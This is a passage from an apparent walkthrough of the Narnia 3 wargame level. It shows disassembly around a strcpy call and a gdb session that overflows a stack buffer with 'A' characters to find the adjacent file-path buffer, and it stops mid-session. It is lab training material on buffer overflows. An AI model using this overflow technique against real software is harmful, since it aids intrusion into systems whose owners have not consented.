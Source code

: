 08048575         mov        dword [ss:esp+0x4], eax                             ; argument "src" for method j_strcpy
08048579         lea        eax, dword [ss:esp+0x38]
0804857d         mov        dword [ss:esp], eax                                 ; argument "dst" for method j_strcpy
08048580         call       j_strcpy
08048585         mov        dword [ss:esp+0x4], 0x2                             ; argument "oflag" for method j_open
0804858d         lea        eax, dword [ss:esp+0x58]
08048591         mov        dword [ss:esp], eax                                 ; argument "path" for method j_open
08048594         call       j_open
08048599         mov        dword [ss:esp+0x6c], eax
0804859d         cmp        dword [ss:esp+0x6c], 0x0
080485a2         jns        0x80485c4
>```
>
> ```j_strcpy``` looks like a good candidate. Let's set our breakpoint for just after and see what's there.
>
>```asm
(gdb) break *0x08048585
Breakpoint 1 at 0x8048585
(gdb) run $(python -c 'print "A"*32')
Starting program: /root/narnia3 $(python -c 'print "A"*32')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048585 in main ()
(gdb) x/100x $esp
0xffffd450:	0xffffd488	0xffffd6d1	0x00000000	0x00000001
0xffffd460:	0xf7ffd908	0xffffd496	0xffffd4a0	0xf7ed8960
0xffffd470:	0xffffd496	0xf7e86315	0xffffd497	0x00000001
0xffffd480:	0x00000000	0xffffd520	0x41414141	0x41414141
0xffffd490:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd4a0:	0x41414141	0x41414141	0x76656400	0x6c756e2f
0xffffd4b0:	0x0000006c	0x00000000	0x0804868b	0xf7fb6ff4
0xffffd4c0:	0x08048680	0x00000000	0xffffd548	0xf7e6de46
0xffffd4d0:	0x00000002	0xffffd574	0xffffd580	0xf7fdb860
0xffffd4e0:	0xf7ff4821	0xffffffff	0xf7ffcff4	0x08048299
0xffffd4f0:	0x00000001	0xffffd530	0xf7fedc16	0xf7ffdac0
0xffffd500:	0xf7fdbb58	0xf7fb6ff4	0x00000000	0x00000000
0xffffd510:	0xffffd548	0xe26b5374	0xd07ee564	0x00000000
0xffffd520:	0x00000000	0x00000000	0x00000002	0x08048420
0xffffd530:	0x00000000	0xf7ff39c0	0xf7e6dd6b	0xf7ffcff4
0xffffd540:	0x00000002	0x08048420	0x00000000	0x08048441
0xffffd550:	0x0804851d	0x00000002	0xffffd574	0x08048680
0xffffd560:	0x080486f0	0xf7fee590	0xffffd56c	0xf7ffd908
0xffffd570:	0x00000002	0xffffd6c3	0xffffd6d1	0x00000000
0xffffd580:	0xffffd6f2	0xffffd705	0xffffd738	0xffffd743
0xffffd590:	0xffffd753	0xffffd7a4	0xffffd7b6	0xffffd7e8
0xffffd5a0:	0xffffd809	0xffffd813	0xffffdd34	0xffffdd62
0xffffd5b0:	0xffffddb0	0xffffddbe	0xffffddc9	0xffffdde1
0xffffd5c0:	0xffffde23	0xffffde32	0xffffde3c	0xffffde4d
0xffffd5d0:	0xffffde64	0xffffde79	0xffffde82	0xffffde95
>```
>
> It looks like there is something right after the ```A```.  Let's try to look at this another way and see if that's our output file.
>
>```asm
(gdb) define xxd
Type commands for definition of "xxd".
End with a line saying just "end".
dump binary memory dump.bin $arg0 $arg0+$arg1